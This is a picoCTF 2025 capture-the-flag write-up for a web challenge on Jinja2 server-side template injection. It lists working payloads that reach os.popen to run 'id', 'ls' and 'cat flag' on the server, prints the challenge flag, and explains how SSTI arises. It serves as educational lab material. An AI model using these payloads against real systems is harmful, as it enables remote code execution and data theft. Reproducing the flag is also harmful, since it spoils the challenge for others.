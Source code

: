 # SSTI1 - picoCTF 2025

## 📂 Category
- Web Exploitation  
- Difficulty: Easy  

---

## 🧩 Challenge Description
The challenge provided a simple web form that reflected user input. 

---

## 🔍 Initial Observations
- Entering expressions like `{{7*7}}` returned `49`, indicating possible Server-Side Template Injection (SSTI).
---

## 🧪 Exploitation Steps

1. Entered: {{7*7}} → Response was `49` → Confirmed SSTI.
2. Tried: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
3. Got a system-level response confirming Remote Code Execution (RCE).
4. Ran: {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
5. Server files listed.
6. Finally: {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
7. Revealed the flag.

---

## 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

---

## 🧠 What I Learned

What is a Template Engine?
A template engine helps generate dynamic web pages. Instead of hardcoding values, you write placeholders like:
```<p>Hello, {{ name }}!</p>```

The server fills in the actual data.

What is SSTI?
Server-Side Template Injection occurs when user input is unsafely inserted into a template. If an input like {{7\*7}} returns 49 (7 times 7 = 49), the server is evaluating user input as code. Running 7\*7 is just the standard convention, but you can run any expression, mathematical or not.

If unpatched, SSTI can lead to:
- Data leaks
- Remote code execution (RCE)
- Full server compromise

---

📚 References
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
